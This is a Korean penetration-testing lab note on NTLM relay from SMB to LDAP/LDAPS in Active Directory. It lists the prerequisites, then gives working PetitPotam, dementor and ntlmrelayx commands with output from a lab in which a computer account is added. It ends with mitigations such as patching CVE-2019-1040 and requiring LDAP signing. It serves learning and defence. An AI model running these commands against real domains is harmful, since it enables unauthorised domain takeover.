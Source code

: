 # SMB to LDAP/S

강제 인증, LLMNR/NBT-NS 기반의 NTLM 릴레이 공격은 피해자 서버로부터 SMB 인증 트래픽을 받아 타겟 서버의 LDAP 서비스로 릴레이 한다. 이때 공격자는 액티브 디렉토리의 LDAP 정보 덤프, 컴퓨터 계정 추가, Delegation 등을 통한 권한 상승 공격을 진행할 수 있다.&#x20;

단, SMB to SMB 에 비해 SMB to LDAP(S) 는 필요 조건들이 더 많다. 따라서 webdav, mitm6, 혹은 wpad 릴레이를 통한 HTTP to LDAP(S) 가 더 자주 사용되는 편이다. 그러나 SMB to LDAP(S) 또한 공격에 성공할 경우 도메인 진입 혹은 도메인 장악이 가능하기 때문에 주의가 필요하다.&#x20;

### 조건&#x20;

* NTLMv2 SMB -> LDAP: 타겟이 CVE-2019-1040에 취약 + LDAP Signing - Enabled/Disabled (Required 면 불가능)&#x20;
* NTLMv2 SMB -> LDAPS:  타겟이 CVE-2019-1040에 취약 + EPA Disabled (LDAP Signing 은 enabled/disabled/required 상관 없이  가능)&#x20;
* NTLMv1 SMB -> LDAP: LDAP Signing Enabled/Disabled (Required 면  불가능). 타겟이 CVE-2019-1040에 취약하지 않더라도 `--remove-MIC` 로 MIC 필드 제거 가능.&#x20;
* NTLMv1 SMB -> LDAPS: 조건 없음, 가능. 타겟이 CVE-2019-1040에 취약하지 않더라도 `--remove-MIC` 로 MIC 필드 제거 가능.&#x20;



### NTLMv2 SMB -> LDAP(S)&#x20;

#### 트리거 - 강제 인증 - Petitpotam&#x20;

```
python3 PetitPotam.py -u '' -p '' 192.168.40.132 192.168.40.150
```

#### 트리거- LLMNR/NBT-NS 포이즈닝&#x20;

이론상 가능하지만 현재 테스트 랩에서는 불가능하다. 추후 더 연구해봐야겠다.&#x20;

#### 릴레이 - CVE-2019-1040에  취약할 경우

```
impacket-ntlmrelayx -t ldap://192.168.40.160 -smb2support --add-computer --no-dump --no-da --no-acl --no-validate-privs --remove-mic

[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.40.150, attacking target ldap://192.168.40.160
[*] Authenticating against ldap://192.168.40.160 as CHOI/DC01$ SUCCEED
[*] Adding new computer with username: UAZZYGGM$ and password: lEE_wdrh2JD7T!M result: OK
```



### NTLMv1 SMB -> LDAP(S)&#x20;

#### 트리거 - 강제 인증 - Print Spooler&#x20;

```
python3 dementor.py -u low -p 'Password123!' -d choi.local 192.168.40.132 192.168.40.150
```

#### 트리거 - LLMNR/NBT-NS 포이즈닝&#x20;

이론상 가능하지만 현재 테스트 랩에서는 불가능하다. 추후 더 연구해봐야겠다.&#x20;

#### 릴레이&#x20;

<pre><code>./ntlmrelayx.py -t ldap://192.168.40.160 -smb2support --no-dump --no-da --no-acl --no-validate-privs --remove-mic
<strong>
</strong><strong>[*] SMBD-Thread-5 (process_request_thread): Received connection from 192.168.40.150, attacking target ldap://192.168.40.160
</strong>[*] Authenticating against ldap://192.168.40.160 as / SUCCEED</code></pre>



### 대응 방안&#x20;

1. NTLMv2 - CVE-2019-1040 관련된 패치를 진행한다. 이는 도메인 컨트롤러들의 기본적인 윈도우 패치만 실행하더라도 패치되는 취약점이다.&#x20;
2. NTLMv2 - LDAP Signing 을 Required 로 설정한다. GPO 를 이용하는 것이 좋다.&#x20;

`(Default Domain Controller Policy 혹은 GPO`) `> Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies >  Security Options > Domain controller: LDAP server signing requirement` - REQUIRED 로 설정&#x20;

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

